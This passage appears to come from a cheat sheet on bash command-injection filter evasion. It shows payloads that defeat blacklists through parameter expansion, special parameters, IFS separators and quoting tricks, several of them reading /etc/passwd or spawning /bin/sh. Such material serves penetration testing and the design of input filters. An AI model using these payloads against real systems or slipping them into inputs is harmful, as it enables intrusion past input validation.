 Additionally, match and replace can be useful when working with blacklists:

```bash
$ a=/eAAA/Atc/paAAA/Asswd; echo ${a//AAA\/A/}
```

References:
- [Bash Reference Manual: 3.5.3 Shell Parameter Expansion](https://www.gnu.org/software/bash/manual/bash.html#Shell-Parameter-Expansion)
- [Bash scripting cheatsheet: Parameter expansions](https://devhints.io/bash#parameter-expansions)

## Special shell parameters

There are several parameters that the shell treats specially. Some of these parameters you can use to create payloads:

```bash
$ i$@d
# $0 expands to the name of the shell or shell script
$ bash -c 'echo id|$0'
```

References:
- [Bash Reference Manual: 3.4.2 Special Parameters](https://www.gnu.org/software/bash/manual/bash.html#Special-Parameters)

## Shell variables

Bash automatically assigns default values to many variables, such as `HOME` or `PATH`. Some of these variables can be used to create payloads. For instance, you can use `IFS` variable as a separator (this is possible since `IFS` contains a list of characters that separate fields):

```bash
$ cat$IFS/etc/passwd
$ echo${IFS}"test"
```

Moreover, you can override `IFS` and use any character as a separator:

```bash
$ IFS=,;`cat<<<uname,-a`
```

References:
- [Bash Reference Manual: 5 Shell Variables](https://www.gnu.org/software/bash/manual/bash.html#Shell-Variables)
- [Bash Reference Manual: 3.5.7 Word Splitting](https://www.gnu.org/software/bash/manual/bash.html#Word-Splitting)

## Tricks

```bash
# using single quotes in command names
$ w'h'o'am'i
# using double quotes in command names
$ w"h"o"am"i
# using backslashes and slahes in command names
$ w\ho\am\i
$ /\b\i\n/////s\h
```

# References

- [PayloadsAllTheThings: Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
